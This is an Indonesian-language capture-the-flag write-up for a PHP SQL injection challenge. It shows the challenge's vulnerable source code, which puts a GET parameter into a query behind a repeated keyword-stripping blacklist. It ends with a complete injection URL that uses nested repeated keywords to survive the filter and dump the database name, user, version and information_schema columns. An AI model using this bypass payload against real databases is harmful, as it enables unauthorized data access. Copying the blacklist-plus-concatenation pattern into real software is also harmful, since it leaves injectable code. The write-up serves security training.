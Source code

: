 # Solution sqli1

Oke pertama , kita diberikan informasi sebagai berikut :
```
/**
 * 
 * Hey ,
 * Can u inject me ? ah ah aagh agh :v ,
 * But but, u must know about php, before inject me :)
 *
 *
 * Task ? 
 * - Print Image , Leet Name , Database , User, version , Time, and DIOS
 *
 *
 * clue ?
 * - need a key ? , u can brute me :v
 * - Hmm , kadang muncul kadang tidak . Beginilah hidup :(
 * - 30 adalah nomor keberuntungan ku :)
 * - I am very tired :(
 *
 * 
 * Solved ? pm me
 *
 * List solver ?
 * https://def-chall.000webhostapp.com/challenge1/solver.php
 * 
 */
 ```

 Beberapa point penting dari informasi diatas :
 - Untuk menyelesaikan challenge ini kita diharuskan untuk melakukan sql injection dengan disertai menampilkan Image , Leet Name , Database , User, version , Time, dan DIOS
 - Kemungkinan untuk mendapatkan key , kita diharuskan melakukan bruteforce
 - Angka 30 merupakan angka penting
 - Challenge ini melelahkan

Oke , Lanjut kita baca potongan kode yang tersedia berikut :
```

$id = $_GET['id'];

if(isset($_GET['key'])){
    $key = $_GET['key'];
    ...
        if(isset($_GET['num'])) {
            if((int)abs(log10(pow(23,13))*rand(1,2)) == (int)$_GET['num']){
                ...
                $data = $con->prepare($query);
                $data->execute();
                ?>
                ...

            <?php
            }else{
                echo "NONONO";
            }
        }else{
            echo "NONONO !1!1";
        }
    ...
    }else{
        echo "Wrong key , guys";
    }
}else{
    echo "where ur key ??,";
}
```

Dari sini kita tahu bahwa :
- Terdapat 3 parameter yaitu :
    - key
    - num
    - id
- Sql injection dapat dilakukan di ```$_GET['id']```
-  ```$_GET['num']``` nilainya acak
- Sementara untuk  ```$_GET['key']``` , kita diharuskan untuk melakukan bruteforce .


Disini saya sudah membuat potongan kode untuk : 
- [Brute force key](bruteforce_key.php)
- [Mengetahui random nilai yang tergenerate pada  ```$_GET['num']](```abs.php)

Oke , setelah itu kita lanjutkan pada proses sql injection .

```
...
for($i=0; $i<$looping;$i++){
    $id = preg_replace("/(union|and|img|src|img src|or|false|true|select|order|by|database|user|schema|-|'| |ASCII|BIN|BINARY OPERATOR|BIT_LENGTH|CAST|CHAR FUNCTION|CHARACTER_LENGTH|CHAR_LENGTH|CONCAT|CONCAT_WS|CONVERT|ELT|EXPORT_SET|EXTRACTVALUE|FIELD|FIND_IN_SET|where|HEX|INSERT FUNCTION|INSTR|LCASE|LEFT|LENGTH|LIKE|LOAD_FILE|LOCATE|LOWER|LPAD|LTRIM|MAKE_SET|MATCH AGAINST|MID|NOT LIKE|@|NOT REGEXP|OCT|OCTET_LENGTH|ORD|POSITION|QUOTE|REGEXP|REPEAT FUNCTION|REPLACE FUNCTION|REVERSE|RIGHT|RPAD|RTRIM|SOUNDEX|SOUNDS LIKE|SPACE|STRCMP|SUBSTR|SUBSTRING|SUBSTRING_INDEX|TRIM|UCASE|UNHEX|UPDATEXML|UPPER|ADDDATE|ADDTIME|CONVERT_TZ|CURDATE|CURRENT_DATE|CURRENT_TIME|CURRENT_TIMESTAMP|CURTIME|DATE FUNCTION|DATEDIFF|DATE_ADD|DATE_FORMAT|DATE_SUB|DAY|tables|DAYNAME|DAYOFMONTH|DAYOFWEEK|DAYOFYEAR|EXTRACT|FROM_DAYS|FROM_UNIXTIME|GET_FORMAT|HOUR|LAST_DAY|time|LOCALTIMESTAMP|MAKEDATE|MAKETIME|MICROSECOND|MINUTE|MONTH|MONTHNAME|NOW|PERIOD_ADD|tables|columns|column|table|PERIOD_DIFF|QUARTER|SECOND|SEC_TO_TIME|STR_TO_DATE|SUBDATE|SUBTIME|SYSDATE|TIME FUNCTION|TIMEDIFF|TIMESTAMP FUNCTION|TIMESTAMPADD|TIMESTAMPDIFF|TIME_FORMAT|TIME_TO_SEC|TO_DAYS|TO_SECONDS|UNIX_TIMESTAMP|UTC_DATE|UTC_TIME|UTC_TIMESTAMP|WEEK|WEEKDAY|WEEKOFYEAR|YEAR|YEARWEEK|BENCHMARK|CHARSET|COERCIBILITY|COLLATION|CONNECTION_ID|CURRENT_USER|DATABASE|FOUND_ROWS|LAST_INSERT_ID|ROW_COUNT|SCHEMA|SESSION_USER|USER|VERSION)/i", "", $id);
    }

    if(isset($_GET['id'])){
        $query = "select * from challenge1 where id=$id";
    }else{
        $query = "select * from challenge1";
    }
    $data = $con->prepare($query);
    $data->execute();
    ?>
    ...
```
Penjelasan kode : 
- Dilakukan looping sebanyak $looping kali ( yang saya tebak bernilai 30 , dikarenakan diawal disebutkan tentang angka 30 yang berkaitan dengan angka keberuntungan )
    - Didalam looping dilakukan preg_match terhadap``` $_GET ['id']``` bila mengandung kata yang berada dalam scope
- Jika``` $_GET ['id]'``` tidak di ada maka $query akan menampilkan semua data, apabila sebaliknya maka $query akan menampilkan data ber-id ,```  $_GET['id]'```

Disini saya telah membuat sebuah program untuk melakukan bypass terhadap fungsi yang ter-replace . Untuk sourcenya bisa dilihat [disini](exploit.py)

Dari beberapa program diatas , kalau kita gabungkan maka akan menghasilkan query berikut :
```
/?key=90770&num=17&id=1/**/ununiununiununiununiununiununiununiununiununiununiununiununiununiununiununiuniononiononiononiononiononiononiononiononiononiononiononiononiononiononiononion/**/selselselselselselselselselselselselselselselselselselselselselselselselselselselselselselselectectectectectectectectectectectectectectectectectectectectectectectectectectectectectectect/**/1,group_conconconconconconconconconconconconconconconconconconconconconconconconconconconconconconconcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcat(0x3C68313E47726579583C2F68313E3C696D67207372633D2268747470733A2F2F692E70696E696D672E636F6D2F6F726967696E616C732F37622F64312F66342F37626431663464386362393234343536363631323139313830343966646437612E6A7067223E),group_conconconconconconconconconconconconconconconconconconconconconconconconconconconconconconconcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcat(schschschschschschschschschschschschschschschschschschschschschschschschschschschschschschschemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaema(),"<br>",system_usususususususususususususususususususususususususususususususererererererererererererererererererererererererererererererer(),"<br>",verversverversverversverversverversverversverversverversverversverversverversverversverversverversverversversionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsionionsion(),"<br>",localtititititititititititititititititititititititititititititititimememememememememememememememememememememememememememememememestamp),(selselselselselselselselselselselselselselselselselselselselselselselselselselselselselselselectectectectectectectectectectectectectectectectectectectectectectectectectectectectectectect/**/group_conconconconconconconconconconconconconconconconconconconconconconconconconconconconconconconcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcatcat(tatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtatabtableleblelebleleblelebleleblelebleleblelebleleblelebleleblelebleleblelebleleble_name,"::",colcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumn_name)/**/from/**/infooooooooooooooooooooooooooooooorrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrmation_schschschschschschschschschschschschschschschschschschschschschschschschschschschschschschschemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaemaema.colcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolcolumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumnumns)
```

Terakhir kita injectkan script diatas ke [sini](https://def-chall.000webhostapp.com/challenge1/)
```
Catatan : Apabila script tidak keluar ,lakukan refresh untuk mendapatkan kode $_GET['num'] yang cocok .